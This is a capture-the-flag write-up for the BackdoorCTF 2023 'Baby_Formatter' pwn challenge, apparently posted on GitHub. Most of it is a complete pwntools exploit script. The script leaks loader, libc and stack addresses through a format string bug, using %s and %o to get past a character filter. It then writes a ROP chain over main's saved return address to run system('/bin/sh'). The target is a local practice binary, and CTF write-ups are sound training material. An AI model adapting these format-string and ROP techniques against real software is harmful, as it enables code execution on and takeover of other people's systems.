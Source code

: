 ## Level: Easy

### Challenge

I got the binary, libc and loader from: https://github.com/sajjadium/ctf-archives/blob/main/ctfs/BackdoorCTF/2023/pwn/Baby_Formatter/README.md

Use `pwninit` or `patchelf` to patch the binary. 
```
  cp fmt1 fmt1_patched
  patchelf --set-interpreter ./ld-linux-x86-64.so.2 fmt1_patched
  patchelf --set-rpath . fmt1_patched
```

Cool challenge by __@p0ch1ta__, format string exploit with some filtered chars. This challenge made me realize that I should automate stuff with pwntools and python functions.

### Checksec
![checksec](https://github.com/user-attachments/assets/e040f7ec-3a06-41dd-a1b7-aa411c8d9fe5)

### Leaking info
Btw, they gave us an option to leak an address in libc and in the stack but I didn't take it :P

![noob](https://github.com/user-attachments/assets/7fc15592-e220-4227-aa85-c327c55cb772)

Anyway, `%p` `%u` `%d` and `%x` is filtered but we can still use `%s` and `%o` to leak info. Due to `Full RELRO` we can't overwrite the got entries, at least in the binary. Maybe we can overwrite a got entry in `libc` because its __Partial RELRO__ but I ended up overwriting _saved rip_ of main with **system("/bin/sh")**.

### Local Flag

![realflag](https://github.com/user-attachments/assets/67de5c3e-b633-4388-89b3-e5b102a40dad)

### Full Exploit
```
#!/usr/bin/env python3

from pwn import *
import time

context.arch = 'amd64'
'''
p = gdb.debug("./fmt1_patched", gdbscript="""
    b *main+159
    c
""")
'''

p = process("./fmt1_patched")

# leak an address in loader for gadgets
# the binary doesn't have useful gadgets
payload = b"%27$s"

p.recvuntil(b">> ")
p.sendline(b"2")

p.recvuntil(b">> ")
p.sendline(payload)

ld_leak = p.recvline().strip()

ld_leak = u64(ld_leak.ljust(8, b"\x00"))

ld_base = ld_leak - 242400
print("LD_BASE: " + hex(ld_base))

# useful gadgets
POP_RSP = ld_base + 0x00000000000021d3 
POP_RSI = ld_base + 0x00000000000054da
POP_RDI = ld_base + 0x000000000000351e 
RET = ld_base + 0x2128

# leak libc and stack addresses in octal
payload = b"%17$lo %21$lo %11$lo"

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

leak = p.recvline().strip()

# convert octal to int
libc_leak = int(leak[:16], 8)
stack_leak = int(leak[17:33], 8)

# calculate offsets
libc_base = libc_leak - 171408
ret_addr = stack_leak - 272
bin_sh = libc_base + 1934968 
system = libc_base + 331120

# overwrite the saved rip of main with "pop_rdi"
# split the address so copying is less painful (2 bytes each time instead of 4)
print("OVERWRITING saved rip with 'pop_rdi'...")
pop_rdi = hex(POP_RDI)[6:]
pop_rdi2 = hex(POP_RDI)[10:]
pop_rdi3 = pop_rdi[:4]

pop_rdi = int(pop_rdi, 16)
pop_rdi2 = int(pop_rdi2, 16)
pop_rdi3 = int(pop_rdi3, 16)

# copy the less significant 2 bytes
payload = b"%*9$c%8$hn"
payload += b"A"*6
payload += p64(ret_addr)
payload += p16(pop_rdi2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.01)
p.sendline(payload)

# copy the next 2 bytes 
payload = b"%*9$c%8$hn"
payload += b"A"*6
payload += p64(ret_addr+2)
payload += p16(pop_rdi3)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.01)
p.sendline(payload)

# overwrite ret_addr+8 of main with "/bin/sh"
# to find "/bin/sh" string in libc (get the offsets with vmmap):
# find 0x00007ff799702000, 0x00007ff7998eb000, '/', 'b', 'i', 'n', '/', 's', 'h'
# copy the less significant 4 bytes
print("WRITING '/bin/sh' ONTO THE STACK...")
bin_sh1 = hex(bin_sh)[6:]
bin_sh1 = int(bin_sh1, 16)
payload = b"%*9$c%8$n"
payload += b"B" * 7
payload += p64(ret_addr+8)
payload += p32(bin_sh1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

# copy the higher 4 bytes
bin_sh2 = hex(bin_sh)[:6]
bin_sh2 = int(bin_sh2, 16)
payload = b"%*9$c%8$n"
payload += b"B" * 7
payload += p64(ret_addr+12)
payload += p32(bin_sh2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

# align the stack with "ret"
# copy the less significant 4 bytes
print("ALIGNING THE STACK FOR SYSTEM...")
ret1 = hex(RET)[6:]
ret1 = int(ret1, 16)
payload = b"%*9$c%8$n"
payload += b"C" * 7
payload += p64(ret_addr+16)
payload += p32(ret1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

# copy the higher 4 bytes
ret2 = hex(RET)[:6]
ret2 = int(ret2, 16)
payload = b"%*9$c%8$n"
payload += b"C" * 7
payload += p64(ret_addr+20)
payload += p32(ret2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

# call system
# copy the less significant 4 bytes
print("WRITING system('/bin/sh')...")
system1 = hex(system)[6:]
system1 = int(system1, 16)
payload = b"%*9$c%8$n"
payload += b"D" * 7
payload += p64(ret_addr+24)
payload += p32(system1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

# copy the higher 4 bytes
system1 = hex(system)[:6]
system1 = int(system1, 16)
payload = b"%*9$c%8$n"
payload += b"D" * 7
payload += p64(ret_addr+28)
payload += p32(system1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
time.sleep(0.1)
p.sendline(payload)

print("shell in 3...")
p.interactive()
```

See? That's why I said automating is important :D



